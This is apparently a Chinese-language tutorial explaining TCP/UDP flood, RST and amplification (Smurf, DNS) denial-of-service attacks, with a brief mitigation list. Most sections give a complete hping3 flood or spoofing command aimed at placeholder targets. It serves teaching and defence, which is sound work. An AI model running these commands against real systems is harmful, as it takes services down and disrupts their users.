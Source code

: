 ### TCP SYN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送SYN包,服务器需要消耗资源来处理，并返回一个SIN/ACK包。
```
hping3 -S --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP FIN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送FIN包会被丢弃，但是服务器需要消耗资源来处理。
```
hping3 -F --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP ACK泛洪攻击
&#8195;&#8195;我们也可以向目标机器发送大量无效的PUSH或者ACK包，来让服务器大量消耗资源，使其无法响应合法的请求：
```
hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
```

### TCP RST攻击
&#8195;&#8195;如果我们捕捉到某个正常用户的源地址，那么我们可以使用伪造的RST包（IP为该用户的IP），来使得这个用户和目标服务器断开TCP链接。
```
hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
```

### UDP 泛洪攻击
&#8195;&#8195;针对类似于UDP这些无连接的协议，攻击者可以发送大量伪造源ip地址的小UDP包。
```
hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
```

### TCP SYN/ACK/FIN/RST应对方法
- 在路由器中，当发现过多的SYN、FIN、RST包时，直接丢弃
- 加资源：带宽、cpu等


### DDOS放大型攻击
&#8195;&#8195;攻击者不是直接把通信包发给受害者，发给放大器然后反射个受害者。这种手段利用回复包比请求包大的特点，伪造请求包的源ip地址，将应答包引向被攻击的目标。

<p align="center">
<img src="/web/ddos/放大攻击.png"  style="width:300px" alt="放大攻击"/>
</p>

&#8195;&#8195;使用这种手段的前提是攻击者和目标之间使用的是无需验证源地址的无连接协议。常见的攻击有Smurf攻击（ICMP）放大、DNS放大攻击、Fraggle攻击（UDP放大）。

#### Smurf攻击
&#8195;&#8195;Smurf攻击通过将回复地址设置成受害者网络的广播地址的ICMP应答请求包，来淹没受害者主机。最终导致该网络的所有主机都对此ICMP应答请求做出回复，导致网络阻塞或者受害者主机无法处理如此大量的回复请求。
```
hping3 --icmp --spoof TARGET_IP BROADCAST_IP
```

#### DNS放大攻击
&#8195;&#8195;对于dns服务而言，其响应包是比请求包大的。因此我们可以冒充目标机器，向dns解析器发送大量的请求，使得目标机器及其所处的网络耗费大量资源来处理dns响应包。

